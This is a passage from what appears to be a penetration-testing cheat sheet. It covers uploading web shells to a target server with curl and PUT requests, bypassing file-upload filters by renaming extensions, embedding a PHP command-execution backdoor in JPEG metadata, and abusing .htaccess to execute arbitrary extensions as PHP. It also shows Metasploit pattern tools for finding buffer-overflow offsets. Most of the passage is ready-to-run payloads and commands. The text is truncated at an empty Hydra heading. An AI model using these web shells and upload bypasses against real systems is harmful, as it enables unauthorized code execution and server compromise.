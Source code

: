 ```bash
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"​

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

### PUTing File on the Webhost via PUT verb <a id="puting-file-on-the-webhost-via-put-verb"></a>

```bash
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

### Generating Payload Pattern & Calculating Offset <a id="generating-payload-pattern-and-calculating-offset"></a>

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

### Bypassing File Upload Restrictions <a id="bypassing-file-upload-restrictions"></a>

* file.php -&gt; file.jpg
* file.php -&gt; file.php.jpg
* file.asp -&gt; file.asp;.jpg
* file.gif \(contains php code, but starts with string GIF/GIF98\)
* 00%
* file.jpg with php backdoor in exif \(see below\)
* .jpg -&gt; proxy intercept -&gt; rename to .php

### Injecting PHP into JPEG <a id="injecting-php-into-jpeg"></a>

```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

### Uploading .htaccess to interpret .blah as .php <a id="uploading-htaccess-to-interpret-blah-as-php"></a>

```text
AddType application/x-httpd-php .blah
```

### Cracking Passwords <a id="cracking-passwords"></a>

#### Cracking Web Forms with Hydra <a id="cracking-web-forms-with-hydra"></a>
